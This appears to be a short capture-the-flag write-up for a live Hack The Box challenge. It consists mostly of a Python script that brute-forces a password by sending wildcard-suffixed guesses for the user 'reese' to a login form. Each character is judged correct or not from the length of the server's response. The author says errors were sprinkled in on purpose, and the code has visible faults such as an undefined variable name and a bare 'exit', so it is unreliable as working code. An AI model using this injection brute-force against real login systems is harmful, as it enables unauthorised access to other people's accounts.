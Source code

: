''' python

import requests
from string import ascii_lowercase, ascii_uppercase

url = "http://159.65.92.13:30182/login"


headers = {'Host':"159.65.92.13:30182",
        'User-Agent':"Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/535.1 (KHTML, like Gecko) Chrome/13.0.782.112 Safari/535.1",
        'Content-Type':"application/x-www-form-urlencode",
        'Connection':"close"}

chars = ascii_lowercase+ascii_uppercase+'0123456789_{}()'

passwd = ''

while(True):
 for char in chars:
    passwd_tmp = passwd+char+'*'
    data = {'username':'reese','password':passwd_tp}
    r = requests.post(url, headers=headers, data=data)
    print(passwd_tmp)
 
    if len(r.content) != 2208 :
        passwd+=char
    elif char=='{':
        print(passwd)
        print('finish!')
        exit
print(passwd)

```

And we get a password! HTB{...}!

Note: as this is a live challenge, I sprickled a few errors into the script, feel free to correct them yourself!


